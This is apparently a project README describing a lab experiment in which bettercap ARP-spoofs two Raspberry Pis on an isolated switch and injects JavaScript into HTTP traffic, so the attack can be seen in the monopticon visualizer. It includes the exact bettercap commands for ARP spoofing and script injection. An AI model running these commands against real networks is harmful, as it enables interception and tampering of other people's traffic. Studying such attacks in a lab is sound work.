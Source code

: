 Introduction
------------

The goal of this expirement is to demonstrate how `bettercap` can inject
javascript into http streams when performing a Man-in-The-Middle and how its
possibile to visually confirm the attack is working with `monopticon`.

The video posted to [Youtube](https://www.youtube.com/watch?v=nixfg6opr_M) describes the expirement well.
The injected javascript that changes the page is available [here](https://github.com/nskelsey/monopticon/master/src/expirements/arp-spoof/script.js).

Expiremental Setup
------------------
Inside of an isolated unmanaged network, an attacker performing an ARP spoofing
attack, man in the middles http requests to a website running on a device in the
local network.

- 1 Netgear Max GS724 24 port switch
- 2 Raspberry Pi 3 running Raspbian-Stretch v4.14
- 1 Lenovo T480 running Monopticon v0.2.0 and Bettercap v2.22
- 3 RJ45 0.5m cables

### Network Design

```
[ pi C ] [ pi B ] [ lenovo ]
   \        |         /
    \       |        /
     \      |       /
      \     |      /
    [ netgear switch ]
```


### Normal ARP Mappings
The addresses are shown below in the diagram if the network was properly configured.

```
10.0.0.1 00:50:b6:b7:2b:eb # Attacker
10.0.0.2 b8:27:eb:71:b2:3e # Bruno
10.0.0.3 b8:27:eb:71:0f:5d # Cocco
```

### Man in the Middle Machine

```zsh
> ip address add dev enp0s31f6 10.0.0.1/24

> sudo su
> /home/synnick/go/bin/bettercap -iface enp0s31f6 -eval 'net.recon on; http.proxy on; arp.spoof on; ticker on;'
```


### Manipulated ARP Tables

ARP Table of Bruno
```
10.0.0.3 00:50:b6:b7:2b:eb # Attacker
```

ARP Table of Cocco
```
10.0.0.2 00:50:b6:b7:2b:eb # Attacker
```


### Attack Results

As shown the once the Lenovo machine starts broadcasting IP addresses

![what it looks like](https://raw.githubusercontent.com/nskelsey/monopticon/master/contrib/screens/local-mitm.gif)

Appendix
--------
## Initial Setup

### Cocco
```zsh
> sudo apt install vim tmux nginx
# changed hostname
# enabled ssh
> enable sshd w/ password
> sudo vim /etc/dhcpdc.conf
# static 10.0.0.3
> wget -r https://soapbox.nskelsey.com --convert-links
> systemctl enable nginx
> cp -fr soapbox.nskelsey.com/* /var/www/html/
> arp -s 10.0.0.2 00:50:b6:b7:2b:eb
```

### Bruno
```zsh
> sudo apt install vim tmux
> enable sshd w/ password
# idem w/o nginx
> arp -s 10.0.0.3 00:50:b6:b7:2b:eb
```

### Attacker

During the attack execute:

```zsh
> cd /home/synnick/projects/monopticon/build
> ping -c5 10.0.0.2 &; ping -c5 10.0.0.3 &; ./bin/monopticon
> /home/synnick/go/bin/bettercap -eval 'net.recon on; set http.proxy.injectjs "/home/synnick/projects/monopticon/src/expirements/arp-spoof/script.js"; http.proxy on; arp.spoof on; ticker on;'
```
